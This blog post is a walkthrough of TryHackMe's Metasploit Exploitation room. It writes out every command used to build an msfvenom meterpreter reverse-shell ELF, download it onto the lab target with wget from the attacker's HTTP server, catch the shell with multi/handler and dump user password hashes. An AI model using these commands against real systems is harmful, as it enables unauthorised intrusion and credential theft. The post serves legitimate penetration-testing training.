 ```yaml
---
layout: layouts/post.njk
title: "Walkthrough - msfvenom (Metasploit: Exploitation TryHackMe Jr Pen Tester
  Pathway)"
date: 2021-12-03T15:13:26.698Z
tags:
  - metasploit
  - msfvenom
  - tryhackme
  - jrpenetrationtester
  - jrpentester
  - exploitation
---
```

<https://tryhackme.com/room/metasploitexploitation>

Just a quick one, I had a bit of trouble getting this working so wanted to create a straightforward guide as the ones I read weren't very clear. 

This is for the Metasploit Exploitation room, which is part of the Jr Penetration Tester pathway on TryHackMe. (This is for the MSFVENOM part.) 

I was using the attackbox but you could use your own machine. 

Connect to the target machine from the terminal using -

ssh murphy@TARGET_IP

Enter the password: 1q2w3e4r

Once logged in do - `sudo su`
Then enter the password again to elevate permissions.

Next create your payload in .elf use a different terminal for this - 

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=YOUR_AttackBox_IP LPORT=8080 -f elf > rev_shell.elf`

You can use any port for LPORT but to avoid confusion just use 8080.

Press enter and now you've created the payload. 

You can use the same terminal you used to create the payload on or a new one, run the following and leave it running - 

`python3 -m http.server 9000` 

This is what we use to transfer the payload to the target machine.

From the target machine (the one you are ssh'd on) run this - 

`wget http://Your_attackbox_IP:9000/rev_shell.elf`

It should then connect and you will see it download the rev_shell.elf file.

![](/images/capture-2-.png "Here is the rev_shell.elf file downloaded.")

You can check it's downloaded by doing `ls` which will list what's in that directory and you will see the rev_shell.elf file listed, if it's not there go back over the above steps and figure out where you may have gone wrong.

Now to get a meterpreter session you need to open another terminal.

Type `msfconsole` to start Metasploit.

Once loaded do this one line at a time from the metasploit console - 

```
use exploit/multi/handler

set payload linux/x86/meterpreter/reverse_tcp

set LHOST YOUR_ATTACKBOX_IP

set LPORT 8080

exploit
```

Now go back to the SSH session for the target machine and do the following one line at a time. 

```
chmod +x rev_shell.elf

./rev_shell.elf
```

The second line here is what runs the rev_shell.elf file, so once run your Metasploit console where you ran the command `exploit` from should now have changed to say `meterpreter >`.

![](/images/capture-3-.png "Here is the running of the .elf file from the target machine. ")

In the meterpreter session do the following. 

`run post/linux/gather/hashdump`

You should now get a list of password hash's for the different users, copy the hash for Claire (You will want to copy everything from the $6$ to the bep0.)

You can now paste this into the question "What is the other user's password hash?" to complete this room.

Hope this helped!